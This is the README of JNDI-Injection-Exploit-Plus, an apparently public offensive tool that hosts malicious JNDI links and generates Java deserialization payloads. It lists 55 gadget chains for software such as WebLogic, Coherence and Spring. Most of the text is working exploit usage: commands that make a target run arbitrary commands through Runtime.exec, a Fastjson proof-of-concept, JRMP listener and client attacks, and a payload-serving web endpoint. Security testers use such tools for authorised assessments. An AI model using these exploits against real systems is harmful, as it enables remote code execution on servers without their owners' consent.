

# JNDI-Injection-Exploit-Plus

[中文 README](./README_zh.md)

## Description

JNDI-Injection-Exploit-Plus is a tool for generating **workable JNDI links** and provide background services by starting RMI server,LDAP server and HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit-Plus to test vulnerability. 

What's more, you can also use JNDI-Injection-Exploit-Plus to **generate binary/base64/hex type of payloads** like [ysoserial](https://github.com/frohoff/ysoserial)

## More than [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) is a great tool, this is the plus version of it.

### What's more

#### 1. More JNDI Remote Reference Gadget: (total: 3)
- Support JDK 6/7/8
#### 2. More JNDI Local Reference Gadget: (total: 4)

Payload | author | dependencies
--- | --- | --- 
Tomcat 8+ or SpringBoot | @welk1n | trustURLCodebase is false but have Tomcat 8+ or SpringBoot 1.2.x+ in classpath
Groovy (GroovyClassLoader) | @cckuailong | trustURLCodebase is false but have Tomcat and Groovy in classpath
Groovy (GroovyShell) | @cckuailong | trustURLCodebase is false but have Tomcat and Groovy in classpath
Websphere Readfile | @cckuailong | trustURLCodebase is false but have WebSphere v6-v9 in classpath

#### 3. Deserailization Gadget (total: 55)

P.S. More Gadgets (:arrow_up: ) than ysoserial, welcome to PR more! ^_^

payload | author | dependencies 
------ | -------- | ------ 
AspectJWeaver       |@Jang                       |aspectjweaver:1.9.2, commons-collections:3.2.2
BeanShell1          |@pwntester, @cschneider4711 |bsh:2.0b5
C3P0                |@mbechler                   |c3p0:0.9.5.2, mchange-commons-java:0.2.11
Click1              |@artsploit                  |click-nodeps:2.3.0, javax.servlet-api:3.1.0
Clojure             |@JackOfMostTrades           |clojure:1.8.0
Coherence1 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0
Coherence2 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0
Coherence3 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0
Coherence4 :arrow_up:           |@cckuailong                 |coherence:3.7.1.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0
CommonsBeanutils1   |@frohoff                    |commons-beanutils:1.9.2
CommonsBeanutils2 :arrow_up:   |@cckuailong                 |commons-beanutils:1.9.2
CommonsCollections1 |@frohoff                    |commons-collections:3.1
CommonsCollections2 |@frohoff                    |commons-collections4:4.0
CommonsCollections3 |@frohoff                    |commons-collections:3.1
CommonsCollections4 |@frohoff                    |commons-collections4:4.0
CommonsCollections5 |@matthias_kaiser, @jasinner |commons-collections:3.1
CommonsCollections6 |@matthias_kaiser            |commons-collections:3.1
CommonsCollections7 |@scristalli, @hanyrax, @EdoardoVignati |commons-collections:3.1
CommonsCollections8 :arrow_up: |@cckuailong                 |commons-collections4:4.0
CommonsCollections9 :arrow_up: |@cckuailong                 |commons-collections:3.1
CommonsCollections10 :arrow_up:|@cckuailong                 |commons-collections:3.2.1
FileUpload1         |@mbechler                   |commons-fileupload:1.3.1, commons-io:2.4 | file uploading
Groovy1             |@frohoff                    |groovy:2.3.9
Hibernate1          |@mbechler|
Hibernate2          |@mbechler|
JBossInterceptors1  |@matthias_kaiser            |javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
Jdk7u21             |@frohoff|
JRMPClient1         |@mbechler|
JRMPClient2 :arrow_up:         |@cckuailong|
JRMPClient3 :arrow_up:         |@cckuailong|
JRMPClient4 :arrow_up:         |@cckuailong|
JRMPClient5 :arrow_up:         |@cckuailong|
JRMPClient6 :arrow_up:         |@cckuailong|
JRMPListener1       |@cckuailong|
JSON1               |@mbechler                   |json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      |@matthias_kaiser            |javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
Jython1             |@pwntester, @cschneider4711 |jython-standalone:2.5.2
MozillaRhino1       |@matthias_kaiser            |js:1.7R2
MozillaRhino2       |@_tint0                     |js:1.7R2
Myfaces1            |@mbechler|
Myfaces2            |@mbechler|
ROME1               |@mbechler                   |rome:1.0
ROME2 :arrow_up:               |@firebasky                  |rome:1.0
Spring1             |@frohoff                    |spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
Spring2             |@mbechler                   |spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
Spring3 :arrow_up:             |@cckuailong                 |spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2
URLDNS              |@gebl						 |jre only vuln detect
Vaadin1             |@kai_ullrich                |vaadin-server:7.7.14, vaadin-shared:7.7.14
Weblogic1 :arrow_up:           |@cckuailong                 |weblogic:10.3.6.0, 12.1.3.0, 12.2.1.0
Weblogic2 :arrow_up:           |@cckuailong                 |weblogic:10.3.6.0, 12.1.3.0, 12.2.1.0
Weblogic3 :arrow_up:           |@cckuailong                 |com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager
Weblogic4 :arrow_up:           |@cckuailong                 |weblogic.common.internal.WLObjectOutputStream
Weblogic5 :arrow_up:           |@cckuailong                 |weblogic:12.2.1.4, coherence
Wicket1             |@jacob-baines               |wicket-util:6.23.0, slf4j-api:1.6.4
WildFly1 :arrow_up:            |@hugow                      |org.wildfly:wildfly-connector:26.0.1.Final

#### 4. generate and export payloads

Like [ysoserial](https://github.com/frohoff/ysoserial).

You can generate the deserialization payloads with Binary, Base64 or HEX type of output

#### 5. Wrapper

Some Wrappers to wrap Deserial Data.

Wrapper | Example Vuls
--------| -----------
Xstream | CVE-2021-39149
Apereo  | Apereo 4.1 Deserialization RCE

- Example

```shell
$ java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar -C "open -a Calculator" -D Jdk7u21 -W Xstream
```


#### Web service to return Deserial Gadgets

```shell
java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar
```

```shell
POST /deserial/{Gadget}

cmd={command}&wrapper={wrapper}output={base64/hex}
```

P.S. Param wrapper & output is opetional


## Usage

### JNDI Links

Run as

```shell
$ java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

### Deserialization Payloads

Run as

```shell
$ java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar [-C] [command] [-D] [Gadget] [-O] [bin/base64/hex]
```

where:
- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-D** - The deserial Gadget payload name.
- **-O** - (Optional) The deserial output type, default is binary

## Deserialization Exploits

### JRMP

- JRMPListener

```shell
java -cp JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar exploit.JRMPListener <port> CommonsCollections1 calc
```

- JRMPClient

```shell
java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar -C "<ip>:<port>" -D "JRMPClient" -O base64
```

## Examples

### JNDI Links

Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
   ```

    Screenshot:

   

2. Assume that we inject the JNDI links like rmi://ADDRESS/remoteExploit8 generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   class Test{
       public static void main(String[] args) throws Exception{
           InitialContext ctx = new InitialContext();
           ctx.lookup("rmi://127.0.0.1:1099/remoteExploit8");
       }
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   

For More Examples: [Test-JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/Test-JNDI-Injection-Exploit-Plus)

### Deserialization Payloads

```shell
$ java -jar JNDI-Injection-Exploit-Plus-1.9-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -D "Spring2" -O base64
```

Base64 Output Result:


## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/cckuailong/JNDI-Injection-Exploit-Plus.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit-Plus
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

**P.S**. :bangbang: If you get the error like "java.rmi.xxx does not exists", you should set the JAVA_HOME env.

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.
